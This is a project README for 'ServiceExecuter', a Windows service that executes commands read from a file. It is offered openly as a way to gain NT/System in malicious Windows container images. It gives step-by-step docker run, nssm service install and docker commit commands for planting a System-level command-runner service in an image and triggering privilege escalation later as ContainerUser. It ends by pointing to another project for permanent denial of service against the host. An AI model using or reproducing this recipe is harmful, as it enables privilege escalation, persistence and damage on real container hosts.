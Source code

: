 # ServiceExecuter
This project reads command from a file, execute it and then write the output to another file. It can be used in order to gain NT/System in malicious windows containers.


# Gain NT/System using malicious container image:

1. Compile this project using Visual Studio 
2. Download the files to the container: 
3. Start the container as NT/System with shared folder between the container's host and the container so it will be possible to share files with the container.
docker run  -it --isolation=process --name=<desired_container_name> -v c:\tmp:c:\tmp --user="NT Authority\System" mcr.microsoft.com/windows/servercore:ltsc2022 cmd  
4. Copy to the container under c:\temp\
	* nssm.exe (https://nssm.cc/)
	* ServiceExecuter.exe - compiled 
5. Create a service using nssm:
	* c:\temp\nssm.exe install EoP4 C:\temp\ServiceExecuter.exe c:\temp\input.txt c:\temp\output.txt
6. Start the service: 
	* c:\temp\nssm.exe start EoP4 
7. Validate everything works as expected: expect the output.txt to be "NT/System"
	```
	echo whoami > c:\temp\input.txt
	more c:\temp\output.txt   
	del c:\temp\output.txt   
	```
8. Exit the container

<In the host> 
9. Store the container as container image 
	* docker commit <desired_container_name>  <desired_container_name>

<DONE> 

Trigger the Privilege of escalation: 
* docker run  --rm -it --isolation=process --name=<desired_container_name_2> --user="ContainerUser" <desired_container_name>  cmd
* whoami /User /Priv
* echo whoami > c:\temp\input.txt  
* more c:\temp\output.txt   


If you wish to do permanent DoS to the container's host see the project NVRAM